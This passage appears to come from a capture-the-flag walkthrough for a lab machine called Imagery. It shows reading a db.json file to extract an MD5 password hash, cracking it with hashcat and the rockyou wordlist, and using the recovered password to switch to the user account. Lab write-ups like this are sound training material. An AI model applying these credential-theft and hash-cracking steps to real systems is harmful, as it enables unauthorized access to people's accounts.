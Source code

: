 **Extract the contents:**

```bash
unzip decrypted.zip
cd web/
ls -la
```

**Contents:**
```
api_admin.py
api_auth.py
api_edit.py
api_manage.py
api_misc.py
api_upload.py
app.py
config.py
db.json          ← Important!
utils.py
```

### Step 12: Discover User Credentials

**Examine `db.json`:**

```bash
cat db.json
```

**Output:**

```json
{
  "users": [
    {
      "email": "mark@imagery.htb",
      "password_hash": "01c3d2e5bdaf6134cec0a367cf53e535"
    }
  ]
}
```

**Crack the hash:**

```bash
echo "01c3d2e5bdaf6134cec0a367cf53e535" > mark_hash.txt
hashcat -m 0 mark_hash.txt /usr/share/wordlists/rockyou.txt
```

**Result:** `mark:supersmash`

### Step 13: User Flag

**Switch to user mark:**

```bash
su mark
# Password: supersmash
```
